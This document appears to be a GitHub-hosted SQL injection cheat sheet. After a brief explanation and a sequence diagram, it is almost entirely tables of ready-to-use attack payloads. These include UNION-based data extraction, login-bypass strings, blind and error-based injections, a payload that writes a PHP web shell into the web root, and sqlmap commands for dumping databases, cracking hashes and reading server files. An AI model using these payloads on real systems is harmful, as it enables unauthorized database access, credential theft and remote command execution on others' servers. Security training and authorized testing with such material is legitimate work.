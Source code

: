 ### **Introduction**

SQL injection is a vulnerability that occurs when an attacker inserts or "injects" malicious SQL code into a database query. This is typically done through user input areas like forms or URLs that are not properly secured. By manipulating the SQL statements, the attacker can gain unauthorized access to the database, allowing them to view, modify, or delete data. This type of attack exploits inadequate input validation and can lead to significant data breaches.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Application
    participant C as Database

    A->>B: 1. Sends SQL Injection Payload
    Note over B,C: The web app fails to sanitize input
    B->>C: 2. Constructs and sends SQL query with payload
    C-->>B: 3. Executes malicious SQL query
    Note over C,B: Database processes the injection
    C-->>B: 4. Returns query result
    B-->>A: 5. Sends response with data to Attacker
```

### **General MySQL Commands**

These commands enable interactions with a MySQL database, including connection setup, navigation, and basic data operations.

| Command | Description |
| --- | --- |
| `mysql -u root -h [TARGET_IP_ADDRESS] -P 3306 -p` | Connects to a MySQL database as the `root` user at a specified host and port. |
| `SHOW DATABASES;` | Lists all databases on the MySQL server for database selection. |
| `USE users;` | Selects the 'users' database for current operations. |
| `SHOW TABLES;` | Displays tables in the active database to outline the data structure. |
| `DESCRIBE logins;` | Shows structure and properties of the 'logins' table, including column data types. |

### **Table and Data Manipulation**

This section focuses on the creation, modification, and population of database tables.

| Command | Description |
| --- | --- |
| `CREATE TABLE logins (id INT, ...);` | Creates a 'logins' table with defined columns and data types. |
| `INSERT INTO table_name VALUES (value_1, ...);` | Adds a new row with values in the defined order to a table. |
| `INSERT INTO table_name (column2, ...) VALUES (column2_value, ...);` | Inserts data into specific columns of a table. |
| `UPDATE table_name SET column1=newvalue1, ... WHERE condition;` | Updates records in a table based on a given condition. |

### **SQL Injection Techniques and Payloads**

A clear and concise overview of SQL injection methods from simple attacks to complex exploitations using tools like sqlmap.

| Technique | Payload | Description |
| --- | --- | --- |
| Basic Union Attack | `' UNION SELECT 1,2,3,4 -- -` | Demonstrates a simple SQL injection with a UNION SELECT. |
| Write File | `cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/proof.txt'-- -` | Writes data to a file on the server, showing file system access. |
| PHP Web Shell | `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` | Creates a web shell for command execution via PHP code. |
| sqlmap Data Dump | `sqlmap -r request.txt --batch --dump` | Automates SQL injection to dump database contents with sqlmap. |
| Targeted sqlmap Scan | `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"` | Targets specific details with sqlmap for sensitive data retrieval. |
| Form Injection Test | `sqlmap -o -u "http://[DOMAIN-NAME]/form/" –forms` | Tests form parameters for SQL injection vulnerabilities using sqlmap. |
| Database & Table Data Dump | `sqlmap -o -u "http://[DOMAIN-NAME]/vuln-form" --forms -D database-name -T users –dump` | Extracts and cracks hashes from specified database tables. |
| Session Flush | `sqlmap --flush session` | Resets sqlmap's session data to clear the testing environment. |
| Boolean Exploitation | `sqlmap -p user --technique=B` | Uses boolean techniques for SQL injection exploitation. |
| Crawl and Scan | `sqlmap -u http://[DOMAIN-NAME] --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3` | Performs a comprehensive crawl and test for SQL injection on a website. |

### **SQL INJECTION Bypass Payloads**

Different SQL injection payloads designed to manipulate or bypass login page.

| Technique | Payload | Description |
| --- | --- | --- |
| Basic Authentication Bypass | `' OR '1'='1` | Bypasses authentication by always returning true. |
| Extended Rights | `' OR '1'='1'--` | Ends the query prematurely to succeed the authentication check. |
| Admin Access | `' OR '1'='1' AND userType='admin` | Attempts to escalate privileges by setting userType to 'admin'. |
| Time-Based Blind SQLi | `admin' AND (SELECT * FROM Users WHERE username='admin' AND SLEEP(10))--` | Infers valid usernames by delaying the response when true. |
| Union-Based Credential Extraction | `' UNION SELECT username, password FROM users--` | Extracts user credentials directly from the database. |
| Error-Based SQLi | `' OR 1=1; RAISERROR ('Login Error', 10, 1);--` | Disrupts normal error handling to disclose information. |
| Commenting Out Remaining SQL | `' OR '1'='1' /*` | Neutralizes the rest of the SQL command for effective manipulation. |
| Complex Payload with Encoding | `' OR ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116 --` | Derives schema details through boolean responses or error messages. |

### **Output Formatting for Analysis**

Methods for optimizing data retrieval and presentation for clearer analysis and reporting.

| Command | Description |
| --- | --- |
| `SELECT * FROM table_name WHERE condition;` | Displays rows matching a specific condition, showing all columns. |
| `SELECT column1, column2 FROM table_name;` | Displays only selected columns, streamlining the output. |
| `SELECT * FROM logins ORDER BY column_1 DESC;` | Orders 'logins' table data by 'column_1' in descending order. |
| `SELECT * FROM logins LIMIT 2 OFFSET 1;` | Shows a subset of records, skipping the first and displaying the next two. |